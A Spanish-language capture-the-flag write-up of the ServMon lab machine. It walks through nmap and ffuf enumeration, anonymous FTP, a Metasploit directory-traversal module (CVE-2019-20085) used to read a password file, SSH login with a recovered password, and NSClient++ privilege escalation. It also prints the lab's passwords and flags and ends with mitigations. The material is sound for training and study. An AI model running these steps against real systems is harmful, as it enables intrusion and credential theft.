







# ServMon

## Resumen

Servidor Windows que expone un FTP con acceso anónimo y el software de videovigilancia
**NVMS-1000**, vulnerable a *directory traversal* (CVE-2019-20085). Las notas dejadas en
el FTP apuntan a un fichero de contraseñas en el escritorio de un usuario; leyéndolo con
el traversal se obtiene una lista de claves, una de las cuales sirve para entrar por SSH
como `nadine`. La escalada a administrador se consigue abusando de **NSClient++**, que
permite ejecutar scripts externos usando la contraseña que guarda en su fichero de
configuración.

## Reconocimiento

Primero hacemos un ping a la máquina para comprobar su TTL y determinar el sistema
operativo. El resultado fue:

```
64 bytes from 10.129.227.77: icmp_seq=1 ttl=127 time=52.6 ms
```

Como el TTL es 127, al aproximarse a 128 podemos decir que se trata de un sistema
operativo Windows.

## Enumeración

### Puertos y servicios

Para ver qué puertos tiene abiertos la máquina usamos:

```
nmap -p- --open -T4 --min-rate 5000 10.129.227.77 > ports
```

```
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5666/tcp  open  nrpe
6063/tcp  open  x11
6699/tcp  open  napster
8443/tcp  open  https-alt
```

Tiene los puertos típicos de un servidor —HTTP, SSH y los de Windows— pero la
peculiaridad está en el 6063 y el 5666 (NSClient++), que podrían ser vulnerables.

Con los puertos localizados, lanzamos un escaneo detallado de servicios:

```
nmap -p 21,22,80,135,139,445,5666,6063,6699,8443 -sVC -T4 -Pn --min-rate 5000 10.129.227.77 > targeted
```

```
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http
|_http-title: Site doesn't have a title (text/html)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  ?
5666/tcp open  tcpwrapped
6063/tcp open  x11           (access denied)
6699/tcp open  napster?
8443/tcp open  ssl/https-alt
```

Lo más destacable: el puerto 21 tiene el login anónimo abierto y la web del puerto 80
nos lleva a un sitio sin título. Los demás son servicios propios de un servidor Windows.

### FTP anónimo

Si nos logueamos con `ftp anonymous@10.129.227.77` entramos en el servicio FTP. Al hacer
`ls` aparecen dos usuarios, **Nathan** y **Nadine**, y en el directorio de cada uno hay un
fichero que podemos descargar con `get`:

- Asociado a Nathan → `Notes to do.txt`
- Asociado a Nadine → `Confidential.txt`



El `Confidential.txt` deja clara la pista principal: hay un `Passwords.txt` en el
escritorio de Nathan.



Y el `Notes to do.txt` nos da contexto sobre NVMS y NSClient:



De aquí sacamos que la clave de Nathan es crítica y está en su directorio personal; que
las contraseñas de NVMS se han cambiado (pero podrían reutilizarse en otro sitio); y que
NSClient está instalado aunque figure como desactivado.

### La web: NVMS-1000

Como no hay más que sacar del FTP, fuzzeamos la web para buscar rutas interesantes:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.227.77:80/FUZZ -mc 200,204,301,302,307,401,403 -e .php,.txt,.html -t 100 -ac -c
```

Solo aparecen `favicon.ico` e `index.htm`. En `index.htm` corre **NVMS-1000**, un software
de monitoreo de videovigilancia para Windows. Es vulnerable a la **CVE-2019-20085**, un
*directory traversal* que permite leer cualquier fichero del sistema poniendo `../` en la
URL.



## Explotación

Para explotar el traversal usamos Metasploit. En `msfconsole`, con `search nvms`,
encontramos el módulo:

```
auxiliary/scanner/http/tvt_nvms_traversal   TVT NVMS-1000 Directory Traversal
```

Lo cargamos con `use auxiliary/scanner/http/tvt_nvms_traversal` y, recordando la pista de
la nota, apuntamos `FILEPATH` al fichero de contraseñas de Nathan:

```
set RHOSTS 10.129.227.77
set FILEPATH /Users/Nathan/Desktop/Passwords.txt
run
```



Al ejecutarlo obtenemos el fichero, que contiene varias contraseñas candidatas:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```



Probando esas contraseñas por SSH, la de `nadine` es `L1k3B1gBut7s@W0rk`:

```
ssh nadine@10.129.227.77
```

Ya dentro, en `C:\Users\Nadine\Desktop` está la primera flag:

```
USER FLAG -> bb40b9cad63370789d6d5b133241e314
```

## Escalada de privilegios

El vector es el software de terceros **NSClient++**, instalado en
`C:\Program Files\NSClient++`. En su fichero de configuración `nsclient.ini` encontramos
la contraseña del programa y que la ejecución de scripts externos está habilitada:

```
password = ew2x6SsGTxjRwXOT
CheckExternalScripts = enabled
allow arguments = true
```



Es decir, podemos subir scripts y tenemos la contraseña con la que NSClient++ lo gestiona
todo. En `msfconsole`, con `search nsclient`, aparece el módulo de escalada:

```
exploit/windows/local/nscp_pe   NSClient++ 0.5.2.35 - Privilege escalation
```

Lo cargamos con `use exploit/windows/local/nscp_pe`, rellenamos la contraseña de NSClient
y lo ejecutamos.

> **Nota:** la máquina es muy inestable y el exploit puede dar bastantes errores; conviene
> reintentar.

Tras la escalada accedemos con privilegios de administrador y en
`C:\Users\Administrator\Desktop` está la flag de root:

```
ROOT FLAG -> e2bff4b0721ae9586be6c93e23f8fd61
```

## Mitigación

- **Desactivar el acceso anónimo al FTP** y no dejar notas ni ficheros con información
  sensible (rutas de contraseñas) accesibles sin autenticar.
- **Actualizar NVMS-1000** para cerrar el *directory traversal* (CVE-2019-20085), o
  retirar el servicio si no es imprescindible y no exponerlo a la red.
- **No reutilizar contraseñas** entre servicios: la clave de un usuario de NVMS no debería
  servir para su cuenta SSH del sistema.
- **Asegurar NSClient++**: proteger `nsclient.ini` para que su contraseña no sea legible
  por usuarios sin privilegios, deshabilitar `CheckExternalScripts`/`allow arguments` si no
  se usan, y restringir el acceso a su API al localhost.

## Qué he aprendido

- Una máquina «fácil» puede encadenar varios fallos pequeños: acceso anónimo, una pista
  dejada por descuido, un CVE conocido y la reutilización de contraseñas.
- Las notas y ficheros «inofensivos» son parte de la enumeración: aquí marcaban
  exactamente dónde mirar.
- NSClient++ es un vector clásico de escalada en Windows cuando deja su contraseña en el
  `.ini` y permite ejecutar scripts externos.
